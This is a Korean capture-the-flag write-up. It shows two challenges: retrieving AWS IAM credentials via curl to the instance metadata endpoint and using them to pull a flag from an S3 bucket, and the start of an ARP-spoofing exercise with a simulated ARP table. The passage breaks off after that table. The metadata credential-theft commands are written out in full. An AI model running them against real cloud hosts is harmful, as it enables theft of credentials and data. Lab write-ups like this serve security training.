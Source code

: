 ## P.MetaData

### 분석한 내용
문제에서 EC2에 접속할 수 있는 id와 pw를 제공해주니 접속을 해줬고, ls, pwd 등 여러 명령어를 실행시켜준 결과 대부분의 코드가 막혀있었다. 그리고 현재 서버로 요청을 보내기위해 curl명령어를 해본결과 해당 명령어는 잘 작동했다.

### 접근방식
일단 curl이 통하는 것을 확인했으니 curl명령어를 통해 메타데이터를 조회를 할 수 있을 것이다. 메타데이터를 조회한 뒤 AWS S3버킷에 접속하는데 필요한 IAM 크리덴셜 정보들을 통해 A3버킷에 접근해 flag를 획득하면 될것이다.

### 코드작성
```bash
ssh ubuntu@{IP} -p {IP}

curl http://169.254.169.254/latest/meta-data/iam/security-credentials/

curl http://169.254.169.254/latest/meta-data/iam/security-credentials/{위 명령어를 통해 출력된 IAM 역할 이름}


# 내 컴퓨터
aws configure
aws s3 ls s3://{버킷이름}
aws s3 cp ~/ s3://{버킷이름}/{flag위치}
```

### 문제해결
위의 명령어를 순서대로 실행하면 flag를 획득할 수 있다.



## Q.Find_victim

### 분석한 내용
해당 문제서버에 접속하면 리눅스 터미널같은 화면이 출력되고 명령어를 사용할 수 있는 부분이 존재한다. 우선 arp스푸핑을 받고있다고 하니 `arp -a`를 통해 arp 테이블을 확인해봤다.

확인해본결과 다음과 같이 출력이 되었다.

```python
가상 ARP 테이블 (arp -a):
?     192.168.1.1          at cb:80:e0:71:da:ca    [Ether]    on eth0      
?     192.168.1.2          at c7:de:0a:27:f5:31    [Ether]    on eth0      
?     192.168.1.3          at 6a:08:eb:57:76:cd    [Ether]    on eth0      
?     192.168.1.4          at 7f:66:1e:ed:11:c2    [Ether]    on eth0      
?     192.168.1.5          at 7f:03:0f:ac:9a:a4    [Ether]    on eth0      
?     192.168.1.6          at 4a:1c:7d:d9:67:c6    [Ether]    on eth0      
?     192.168.1.7          at c7:de:0a:27:f5:31    [Ether]    on eth0      
?     192.168.1.8          at 92:4b:c2:0d:06:bc    [Ether]    on eth0      
?     192.168.1.9          at 37:82:15:c6:b8:ca    [Ether]    on eth0      
?     192.168.1.10         at 85:49:f9:8f:ca:b2    [Ether]    on eth0 
```
